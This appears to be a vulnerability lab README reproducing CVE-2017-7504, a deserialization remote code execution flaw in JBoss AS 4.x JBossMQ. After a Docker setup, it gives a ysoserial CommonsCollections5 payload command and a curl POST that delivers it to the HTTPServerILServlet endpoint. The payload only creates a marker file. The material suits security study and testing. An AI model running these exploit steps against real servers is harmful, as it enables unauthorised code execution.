 # JBoss 4.x JBossMQ JMS Deserialization Remote Code Execution (CVE-2017-7504)

[中文版本(Chinese version)](README.zh-cn.md)

Red Hat JBoss Application Server is a JavaEE-based open source application server. In JBoss AS 4.x and earlier versions, there is a deserialization vulnerability in the HTTPServerILServlet.java file of the JMS over HTTP Invocation Layer in JBossMQ implementation. Remote attackers can exploit this vulnerability to execute arbitrary code by using specially crafted serialized data.

References:

- https://github.com/joaomatosf/JavaDeserH2HC
- https://www.youtube.com/watch?v=jVMr4eeJ2Po

## Environment Setup

Execute the following command to start JBoss AS 4.0.5:

```
docker compose up -d
```

After the environment is started, the target will be available at `http://your-ip:8080`.

## Vulnerability Reproduce

This vulnerability exists in the `/jbossmq-httpil/HTTPServerILServlet` request. We can use the CommonsCollections5 exploitation chain from ysoserial to reproduce it. Generate the payload:

```
java -jar ysoserial-master-30099844c6-1.jar CommonsCollections5 "touch /tmp/success" > 1.ser
```

Send the content of 1.ser file as POST Body:

```
curl http://your-ip:8080/jbossmq-httpil/HTTPServerILServlet --data-binary @1.ser
```

![](1.png)

Execute `docker compose exec jboss bash` to enter the container, and you can see that `/tmp/success` has been successfully created.
